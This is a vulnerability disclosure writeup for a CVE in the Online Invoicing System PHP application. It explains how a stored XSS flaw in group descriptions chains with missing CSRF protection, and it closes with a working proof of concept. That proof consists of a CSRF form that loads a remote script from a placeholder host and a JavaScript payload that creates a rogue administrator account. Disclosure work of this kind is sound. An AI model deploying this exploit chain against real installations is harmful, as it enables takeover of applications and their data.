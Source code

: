 ```yaml
---
layout: post
title: CVE-2020-35677
tags: [CVE-Writeup, XSS, CSRF, Chaining]
author: Ingredous Labs
comment: true
---
```


```
Software Name: Online Invoicing System
Software Version: < 4.0
Software Developer: https://bigprof.com/
Link to Software: https://github.com/bigprof-software/online-invoicing-system
Vulnerability: Application Takeover via chaining Stored XSS + CSRF
CVE ID: Pending
Pending
```

# Introduction

Online Invoicing System fails to adequately sanitize fields for HTML characters upon an administrator creating a new group thus resulting in Stored Cross-Site Scripting. The caveat here is that an attacker would need administrative privileges in order to create the payload thus completely mitigating the privilege escalation impact as there is only one high privileged role. However it was discovered that the endpoint which is responsible for creating the group lacks CSRF protection as well making it possible for an attacker to chain both of these vulnerabilities eventually resulting in taking over the application.

# Exploitation Details

**PHP Version used throughout this writeup: PHP 7.4.8**

`admin/pageEditGroup.php` returns a form which allows an administrator to create a new group. This form has two fields which accept user input (`Group Name` & `Description`) while the rest of the fields are checkbox and radio forms.

To learn more about how this form works, lets take a closer look at the code which is responsible.

**admin/pageEditGroup.php**:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss2/formcode.png)

As shown on Lines 3 & Lines 4, the value of the user inputs retrieved from the body of the POST request are first passed into the `makeSafe()` function before being initialized as the value of their respective variable. The `makeSafe()` function was taken apart in great detail in the following [writeup](https://labs.ingredous.com/2020/07/13/ois-sqli/). Long story short, `makeSafe()` is responsible for essentially catching and dealing with any special characters that could result in a SQL Injection. An example of such special characters are null bytes, single quotes, line feeds, carriage returns, etc. 

While `makeSafe()` is helpful for preventing SQL Injections, it however is not responsible for sanitizing any user input which contains HTML characters. As a result of this, the unsanitized user input is stored directly in the database as shown on Line 35:

~~~php
sql("insert into membership_groups set name='{$name}', description='{$description}', allowSignup='{$allowSignup}', needsApproval='{$needsApproval}'", $eo);
~~~

However before declaring this Cross-Site Scripting, lets see if there is any sanitization done on the values before reflecting them onto the page.

**admin/pageViewGroups.php**:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss2/viewgroup.png)

As shown on Line 1 above, a SQL query is executed which will return the values from the following columns:

~~~
groupID - Column 0
name - Column 1
description - Column 2
~~~

Afterwards a while loop is constructed in order to iterate and retrieve the values returned from each column. The index in which `$row` is returning corresponds to the position of the columns listed above, for example `$row[0]` will be the `groupID` while `$row[1]` will be the `name` and finally `$row[2]` will be the `description`.

As shown on Line 6, the application directly reflects the values of `$row[0]` and `$row[1]` onto the page. Before reflecting the value of `$row[2]`, it is passed into the `thisOr()` function in which the [earlier writeup](https://labs.ingredous.com/2020/07/13/ois-membershipsignup-xss/) explained the logic of the function. 

TL;DR: `thisOr()` performs a ternary operation on the value of the passed in argument. If the value is not empty it will be directly returned. However in cases where the value is empty, the `&nbsp` HTML entity will be returned (which is a space). This function does nothing to sanitize any input being reflected onto the page.

Due to this, we can now confirm that the application would be vulnerable to Stored Cross-Site Scripting.

While this can be considered an issue, any impact here is severely mitigated as unlike other applications such as Wordpress which provide multiple tiers of high privileges such as Moderator, Admin, Super Admin, etc, as this application only has one admin level. This means that in order for an attacker to succesfully exploit the application, they would either need to convince the application's admin to input the XSS payload which is very unlikely or have an account with admin privileges themselves which defeats the purpose of exploiting the application via this way.

However when viewing the request which is responsible for creating the group, an astute attacker may observe that there appears to be no form of CSRF protection:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss2/request.png)

As reviewed in an [earlier writeup](https://labs.ingredous.com/2020/07/13/ois-membershipsignup-xss/) , the application does not utilize `Same Site Cookies` meaning this endpoint would be vulnerable to Cross-Site Request Forgery.

While this is could be considered a serious issue, it is not the end of the world for the application as the attacker only has the ability to CRUD groups. The attacker would be unable to add themselves directly into a group and moreso would be unable to create a group which has administrative privileges as the application only limits these types of privileges to the default Admin's group.

To recap where an attacker currently stands in the context of exploitation:
- Application is vulnerable to Stored XSS however an attacker which already has administrative privileges is required to create the initial payload.
- Application is vulnerable to CSRF which would allow an attacker to create custom groups.

In order for an attacker to gain successful remote exploitation on this application, they are able to chain the two vulnerabilities together to leverage a complete takeover. The attacker will need to first create a simple CSRF proof of concept payload which will look similar to:

~~~html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/admin/pageEditGroup.php" method="POST">
      <input type="hidden" name="groupID" value="" />
      <input type="hidden" name="name" value="Randomgroup" />
      <input type="hidden" name="description" value="randomgroup" />
      <input type="hidden" name="visitorSignup" value="1" />
      <input type="hidden" name="saveChanges" value="1" />
      <snip>
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
~~~

In the CSRF proof of concept above, the attacker will need to replace either the value of the `name` parameter or `description` parameter with their payload. However it would be a good idea to test this locally first as the attacker will notice that the `name` field has a character length restriction in the database:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss2/sql.png)

As shown above, the `name` column is of type `VARCHAR(100)` meaning it will only take up to 100 bytes. As an ASCII character is 1 byte, the maximum characters you could store in this column would most likely be 100. While this is not a dealbreaker, it can definitely truncate the attacker's payload and ruin the exploitation process. However an attacker could also use the `description` parameter as it's value is directly reflected on the page as well. Looking at the `description` column is of type `text` and is able to take any amount of characters, making it the smarter choice here.

After updating the `description` parameter to contain the attacker's payload in the description above, the proof of concept is ready to be hosted.

Upon hosting the proof of concept and having the application's admin browse to it, the CSRF vulnerability will be triggered and a group will be created with the description containing an XSS payload.

Finally when the application's admin browses to the Groups List (located at `/admin/pageViewGroups.php`), the XSS payload will be executed thus resulting in a successful chain. As the XSS payload will be executed in the context of the application, the Same Origin Policy is bypassed therefore allowing an attacker to leverage their privileges to the highest available and effectively takeover the application.


# Proof of Concept

~~~html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/admin/pageEditGroup.php" method="POST">
      <input type="hidden" name="groupID" value="" />
      <input type="hidden" name="name" value="Randomgroup" />
      <input type="hidden" name="description" value="<script src=//your-app.pw/payload.js></script>" />
      <input type="hidden" name="visitorSignup" value="1" />
      <input type="hidden" name="saveChanges" value="1" />
      <snip>
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
~~~

**Replace `your-app.pw/payload.js` found in the value of the description parameter above.**

~~~javascript
//payload.js

// create admin with username attacker1337
var req = new XMLHttpRequest();
var url = ""+ "/admin/pageEditMember.php";
var regex = /csrf_token" value="([^"]*?)"/g;
req.open("GET", url, false);
req.send();
var nonce = regex.exec(req.responseText);
var nonce = nonce[1];
var params = "csrf_token="+nonce+"&oldMemberID=&memberID=attacker1337&password=attacker1337&confirmPassword=attacker1337&email=attacker%40testing.io&groupID=2&isApproved=1&custom1=&custom2=&custom3=&custom4=&comments&saveChanges=1";
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
~~~

The Javascript snippet above will create a new administrator with the username and password being `attacker1337`.
